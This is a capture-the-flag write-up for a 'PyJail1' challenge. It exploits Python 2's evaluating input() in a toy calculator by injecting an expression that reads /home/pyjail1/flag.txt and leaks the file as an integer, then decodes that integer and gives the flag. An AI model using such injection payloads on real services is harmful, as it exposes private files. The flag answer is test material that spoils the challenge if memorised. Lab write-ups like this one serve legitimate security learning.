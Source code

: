 # [PyJail1](http://s1063.vdi.mipt.ru:8000/challenges#PyJail1)
You can find flag in `/home/pyjail1/flag.txt`
```python
#!/usr/bin/python2.7 -u

print("Calculator v0.1a")
print("Note: This alpha version can only sum 2 numbers")
 
# code from https://stackoverflow.com/questions/26692611/how-do-you-input-integers-using-input-in-python
try:
    X = int(input("X = "))
    Y = int(input("Y = "))
except ValueError:
    print("Not an integer value...")
 
print("X + Y = " + str(X + Y))
```

# Solution
1. Notice that if we input `X = eval('1+2')`, `X` will be stored 3.
2. `print` not working.
3. Let's encode file data to hex and then to decimal int:
```python
X = int('0x' + open('/home/pyjail1/flag.txt', 'r').read().encode('hex'), 16)
```
4. `Y = 0`
5. `X + Y = 4035685915437068415875044064788311391051187934429718878804198664549710883664479903569146894094096139901786421786148106`
6. After decoding we get:
```python
flag = hex(<result>)[2:] # slice after 0x
print(bytes.fromhex(flag))
```
7. Result: `flag{The_python2_is_d3ad_L0ng_l1ve_the_python3!}`.

**Answer**: `flag{The_python2_is_d3ad_L0ng_l1ve_the_python3!}`